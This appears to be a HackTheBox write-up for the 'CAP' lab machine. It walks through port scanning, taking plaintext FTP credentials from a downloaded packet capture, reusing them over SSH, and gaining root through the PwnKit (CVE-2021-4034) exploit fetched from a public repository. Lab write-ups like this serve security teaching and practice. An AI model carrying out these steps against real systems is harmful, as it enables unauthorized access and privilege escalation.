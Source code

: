 # CAP - HackTheBox Writeup (2025-04-07)

> ⚠️ **Disclaimer**
>
> This report documents a security assessment performed on a publicly available vulnerable machine within the HackTheBox platform.
> All activities were conducted legally and within the authorized scope of HackTheBox Labs.
>
> This report is shared strictly for educational and ethical purposes only.


## Target Overview

- **Machine Name:** CAP
- **IP Address:** 10.10.10.245
- **Platform:** HackTheBox
- **Difficulty:** Easy
- **Objective:** Gain root access and capture flags


## Enumeration

### 🔎 Nmap Scan
```bash
nmap -sC -sV -p- -oN cap_nmap.txt 10.10.10.245
```

**Open Ports:**
```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Gunicorn
```

- Port 80 hosted a “Security Dashboard” with limited functionality.
- Discovered `/data/0` and `/data/3` endpoints via directory fuzzing and manual inspection.
- Downloaded a `.pcap` file from `/data/3`.


## Initial Foothold

### 📦 Credential Extraction from PCAP
- Inspected `login.pcap` with Wireshark.
- Captured a plaintext FTP login:
  ```
  USER nathan
  PASS Buck3tH4TF0RM3!
  ```

- Credentials worked for **SSH login**:
  ```bash
  ssh nathan@10.10.10.245
  ```

- Flag #1: User flag located at:
  ```bash
  cat ~/user.txt
  ```

- Nathan is **not** a sudoer (`sudo -l` returned permission denied).


## Privilege Escalation

### 🚀 PrivEsc via CVE-2021-4034 (PwnKit)
- Found `/usr/bin/pkexec` with SUID bit set.
- Checked version:
  ```bash
  pkexec --version
  → 0.105
  ```

- Confirmed vulnerable to **PwnKit** exploit.

### ✅ Exploitation Steps:
- Downloaded PoC exploit from:
  `https://github.com/berdav/CVE-2021-4034`
- Compiled the shared object:
  ```bash
  make
  ```
- Executed exploit:
  ```bash
  ./cve-2021-4034
  whoami → root
  ```

- Flag #2: Root flag located at:
  ```bash
  cat /root/root.txt
  ```


## Conclusion

Successfully compromised CAP via:
- PCAP file analysis and credential reuse
- Abuse of vulnerable `pkexec` binary (PwnKit)

**Tools Used:** Nmap, Gobuster, Wireshark, gcc, Git, CVE-2021-4034 exploit

**Lessons Learned:**
- Traffic captures can leak real credentials.
- Always verify local binaries with SUID for known vulns.
- Privilege escalation is often one small misconfig away.


